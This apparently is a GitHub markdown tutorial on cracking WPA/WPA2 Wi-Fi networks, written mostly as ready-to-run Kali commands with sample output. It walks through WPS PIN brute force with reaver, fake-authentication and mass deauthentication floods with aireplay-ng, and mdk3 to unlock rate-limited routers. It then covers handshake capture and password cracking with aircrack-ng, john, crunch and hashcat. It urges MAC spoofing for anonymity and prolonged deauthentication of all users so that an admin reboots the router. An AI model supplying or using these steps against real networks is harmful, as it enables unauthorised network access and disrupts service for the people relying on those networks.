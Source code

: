 # Wifi-Cracking (Part-2)  
 
 #### [ WPA/WPA2 CRACKING]
 ---


This is part-2 on wifi-cracking and in this writeup we will be discussing on WPA/WPA2 networks.

**NOTE: always check your wireless adapter mode is set to managed before connecting to network because you can't connect to network in monitor mode its only used for packet capture purpose and you can change your MAC Address before attack to increase anonmity and to protect your identity**

Most guaranteed attack to crack WPA/WPA2 is to use the tool **reaver** when WPS is enabled but It not works on all routers specially on new ones  it only works against **PBC auth** types  many of you loose hope in the case of routers cracking but keep patience and try to **debug** reaver output.


At first to know WPS enabled routers near you : Run

```bash
root@kali:~# wash -i wlan0

```
select the MAC Adress of target routers and paste after bssid field.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0

```
If you are lucky it will be executed successfully but it will  take sometime to get pin (but if you get error) like this

```bash
[!]WARNING: Failed to associate with  5D:A8:6A:A9:4C:5I (ESSID: CRACKME)

```
If you are getting this error quit the program than simply split the bash screen and use **aireplay-ng** to associate with target to do fake authentication attack with the help of below command.

```bash
root@kali:~# aireplay-ng --fakeauth 100 -a { MAC Address of target router} -h {MAC Address of your wireless card} wlan0

```
> You can get the  MAC Address of your wireless card just by ifconfig wlano (it will be the unspec field)

The above command is doing a fake authentication attack to associate with target and i want a delay of 100 sec between association attempts but wait before you press  enter run your previous command with -A and than run this command.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0 -A

```
(-A) helps to not associate with target you can see all available options with reaver by using **reaver --help**
by running the command you might get this thing in bash :

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A


[+] Assciated with 5D:A8:6A:A9:4C:5I  (ESSID: CRACKME)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)

```
Our association problem is solved but we still are not able to get pin if you try some debugging with -VVV(Verbose mode ):

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A -vvv --no-nacks

```
It will brute-force to get pin and may take some time to bypass the router.
Sometimes it's easy to deal WPS things because many people don't change there default pins which are easily crackable while doing this stuff sometimes you will face some routers get locked after some failed attempts  and it make take many hours to unlock or may be some days but we  can't wait for that long to crack it the best hack to deal this problem is deauthenticate all users from that router to a long period of time  and than admin have to restart the router because of the annoying behaviour of router.

```bash
root@kali:~# aireplay-ng --deauth 10000000000000000 -a { MAC Address of router } wlan0

```

The success rate of our deauthentication attack is high but there is always an alternate option **mdk3** it is the tool designed to exploit a number of weaknesses in 802.11 protocol (we can use it to remotely unlock the locked router )

```bash
root@kali:~# mdk3 --help

```
To see all available options and how to use it than simple run

```
root@kali:~# mdk3 a -a { MAC Address of router which is locked } -m

```
it mostly give successfull results on many router after this just run the reaver command to brute-force pin.

```
root@kali:~# reaver --bssid           --channel -i wlan0

```

---



##### If now WPS is disabled or if you tried everything and it doesn't work  you are left out with two more options.

- WORDLIST ATTACKS

- EVIL TWIN ATTACKS


So lets first talk about wordlist attack this is going to work on all WPA/WPA2 networks but it totally depends how strong your  **wordlist** and how quick your **machine** is .Issue with this attack is large wordlist is going to take huge space of your hardisk and if password is very hard to crack it may take 2-3 days or even a week.But don't worry that's why you are here I am going to tell you some efficient ways to do this attack.

So lets deal with first issue that large wordlist are going to take longer time and **aircrack-ng** does not save the progress.

First you will need to capture the  **handshake** file  and  need a wordlist to perform this attack.
You can find many wordlist online and even you can generate your own wordlist if you know some of characters of Password.

```bash
root@kali:~# airodump-ng wlan0

root@kali:~ airodump-ng --channel {channel no. of the selected wireless network} -w {name of captured file} --bssid {bssid no.} {name of wireless network}

```
e.g
```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55  --write handshake.cap wlan0

```

By running the first command get all networks bssid and channel and the run the second command to get handshake but handshake is generated only when the new client is connected to that so are you going to wait that long ? Obviously no run a deauthentication attack to disconnect a client and then when he tries to connect you will get a handshake.

After this,

```bash
root@kali:~# aircrack-ng handshake.cap -w { name of wordlist }

```

After this it will run to get the password but it will take some time and if you get frustrated and quit the program it and it will stop and if you try to run again it will restart. So takeover this we are going to use a classical tool **john the reaper**
and pipe it with **aircrack-ng**

```bash
root@kali:~# john --wordlist= { name of wordlist } --stdout | aircrack-ng -w - -b { MAC Address of target } handshake.cap

```
e.g

```bash
root@kali:~# john --wordlist=crack_wordlist --stdout --session=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```

the above command before the pipe is outputing the wordlist with a session id and we are using the output wordlist to the second command after the pipe So the run command for some action and if you terminate the action you can restore it by the following command.

```bash
root@kali:~# john --restore=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```
Now you can use **crunch** to generate wordlist if your familiar to crunch than it's okay otherwise feel free to see the entire manual for **crunch** by using  command *man crunch* command or see it online the general way to generate it is

```bash
root@kali:~# crunch 8 8 -o all.txt
Crunch will now generate the following amount of data 1879443581184 bytes
1792377 MB
1750 GB
1 TB
0 PB
Crunch will now generate the following number of files: 208827064547

```
So what do you think you have that much of space in your hardisk for that wordlist or you just need a  solution to  solve this, you can also combine the **aircrack-ng** with crunch with just omiting -o .

```bash
root@kali:~# crunch 8 8 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you get your job done with crunch please see crunch in details because you if you know some characters and spaces it help you a lot and increase the chance to crack WPA/WPA2 faster.

Let's combine all three concepts **john the reaper**, **crunch** and **aircrack-ng** to increase our cracking efficiency.
crunch  will generate the password jhon the reaper will save and restore the progress and aircrack will do it's cracking part.

```bash
root@kali:~# crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you got your job done with some perfection and to restore this process

```bash
root@kali:~# crunch 8 8 | john --restore=session1 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```
---

Using all this methods is okay but you can boost the process if you use your **GPU** because it is designed to carry out repetitive task fasts which means its more efficient than CPU and cracking hashes is a repetitive task.

Condition to do this your system must have a powerful GPU or good graphics card  and we are going to use **hashcat** and you can download it from from [here](https://hashcat.net/hashcat/) and we are using this tool because can't us
aircrack-ng does not allow graphics card in cracking.

**NOTE: Use a WINDOWS machine because mosts GPU's have driver for windows and its heck disturbing to download driver for linux system if you can download it in your linux system you are free to do it and if you are using in WINDOWS first download the driver for your system whatever you have  Nvdia or AMD**


After downloading and extracting hashcat you need to convert your handshake file from .cap extension to .hccapx  extension
which is the extension supported by hashcat you can convert it from [here](https://hashcat.net/cap2hccapx/), (in ESSID field just enter name of the network) after converting download it keep your wordlist and handshake.hccapx file in same directory where you downloaded hashcat.

open your windows terminal

```bash
c:\user\error> cd/
(go to the root directory)

c:\> dir
(to list all files and go to hashcat)



c:\>cd hashcat-3.6.0
c:\hashcat-3.6.0> dir
(you will see 32-bit and 64-bit run which compatible to your device )

c:\hashcat-3.6.0>hashcat64.exe --help
(it will list all possible ways to run it )

c:\hashcat-3.6.0>hashcat64.exe -I
(it will list all possible device CPU AND GPU to perform attack)

c:\hashcat-3.6.0> hashcat.exe -m 2500 -d 1 handshake.hccapx wordlist.txt


```
> (-m 2500 specify which hash your are going to crack -d 1 is use to specify use GPU which listed first when we -I command)
You can use p and r to pause and resume the process you will see how fast it works

Your JOB will be done very fast as compare to CPU.

**AUTHOR** - [Error](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
